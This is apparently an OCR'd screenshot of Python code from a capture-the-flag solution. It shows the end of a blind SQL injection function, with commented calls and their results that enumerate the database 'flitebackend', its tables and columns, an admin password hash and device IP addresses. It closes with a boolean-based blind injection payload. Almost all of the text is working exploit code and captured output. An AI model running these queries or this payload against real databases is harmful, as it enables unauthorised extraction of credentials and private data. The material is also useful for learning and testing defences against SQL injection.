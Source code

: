 ```
        passwd += chr(temp)
        res = ""
        print "Result [{}]: {}".format(table,passwd)
        idx += 1

    return passwd
   


# blind("user()","")
# Result []: root@localhost

# blind("@@version","")
# Result []: 10.1.37-MariaDB-0+deb9u1

# blind("database()","")
# Result []: flitebackend

# blind("schema()","")
# Result []: flitebackend

# blind("table_name","from information_schema.tables where table_name!='devices'")
# blind("table_name","from information_schema.tables where table_schema=schema()")
# Result [from information_schema.tables where table_schema=schema()]: devices
# Result [from information_schema.tables where table_name!='devices']: users

# blind("column_name","from information_schema.columns where table_name='devices'")
# blind("column_name","from information_schema.columns where table_name='devices' and column_name!='id'")
# blind("column_name","from information_schema.columns where table_name='devices' and column_name not in ('id','ip')")
# id, ip

# blind("column_name","from information_schema.columns where table_name='users' and column_name not in ('id')")
# blind("column_name","from information_schema.columns where table_name='users' and column_name not in ('id','username')")
# blind("column_name","from information_schema.columns where table_name='users' and column_name not in ('id','username','password')")
# blind("column_name","from information_schema.columns where table_name='users' and column_name not in ('id','username','password','USER')")
# id, username, password, USER

# blind("password","from users where username='admin'")
# 1, admin, 5f4dcc3b5aa765d61d8327deb882cf99 (password)
# 

blind("group_concat(ip)","from devices")
# 1, 10.176.194.225
# 2, 244.181.238.206
# 3, 243.221.130.19


# x' AND 6492=(SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(ip AS CHAR),0x20) 
# FROM flitebackend.devices ORDER BY id LIMIT 2,1),6,1))>87) THEN 6492 ELSE 
# (SELECT 4509 UNION SELECT 4483) END))-- Ysdo
```
